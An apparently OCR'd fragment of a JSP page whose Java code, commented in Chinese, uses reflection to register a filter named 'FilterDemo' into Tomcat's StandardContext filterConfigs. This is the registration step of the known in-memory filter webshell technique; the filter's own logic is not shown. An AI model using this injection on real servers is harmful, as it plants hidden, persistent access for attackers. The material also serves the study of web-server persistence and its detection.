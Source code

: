         //添加到standardContext的filterConfigs中
        //反射获取filterConfigs
        //由于ApplicationFilterConfig经Final修饰，且构造方法为静态方法，无法通过new实例化，需通过反射获取ApplicationFilterConfig构造方法并实例化后添加入filterConfigs
        Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
        filterConfigs.setAccessible(true);
        HashMap hashMap = (HashMap) filterConfigs.get(standardContext);
        Constructor<?> declaredConstructor = ApplicationFilterConfig.class.getDeclaredConstructors()[0];
        declaredConstructor.setAccessible(true);
        hashMap.put("FilterDemo",declaredConstructor.newInstance(standardContext,filterDef));
    
        System.out.println("over");
    
    %>
    </body>
    </html>